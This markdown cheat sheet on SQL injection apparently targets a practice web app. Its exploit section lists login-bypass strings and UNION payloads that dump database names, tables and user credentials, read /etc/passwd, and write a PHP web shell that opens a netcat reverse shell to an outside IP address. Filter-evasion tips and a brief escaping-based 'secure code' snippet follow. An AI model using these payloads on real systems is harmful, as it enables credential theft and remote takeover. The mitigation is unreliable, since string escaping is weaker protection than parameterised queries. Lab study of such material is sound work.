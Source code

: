 # SQL Injection

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 
- Data Extracting 
  - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - ```?page=user-info.php&username=z' union select 1,table_name,null,null,5 from information_schema.tables``` 
  - ```?page=user-info.php&username=z' union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - ```?page=user-info.php&username=z' union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - ```?page=user-info.php&username=z' union select 1,username,password,is_admin,5 from accounts``` 
  - ```?page=user-info.php&username=z' union select null,load_file('/etc/passwd'),null,null,null``` 
  - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
- Tips
  - TRUE statements
    - ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1``` 
  - FALSE statements
    - ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```   
  - Spaces
    - ```+``` & ```/**/``` & ```%20``` 
    - ```orDeR bY 1 can be re-written as``` => ```orDer+bY+1``` or ```orDer/**/bY/**/1``` or ```orDer%20bY%201```
  - Comments to end the quries
    - ```/*``` & ```//``` & ```#``` & ```%23```
    - Sometimes you might need to add ';' before the comment
      - ```anD 1=1//``` => ```anD 1=1;//```

## Mitigation
- Secure Code for login in PHP
```PHP
$query = "SELECT * FROM accounts WHERE username='".
$conn->real_escape_string($username).
"'AND password='".
$conn->real_escape_string($password).
"'"
```
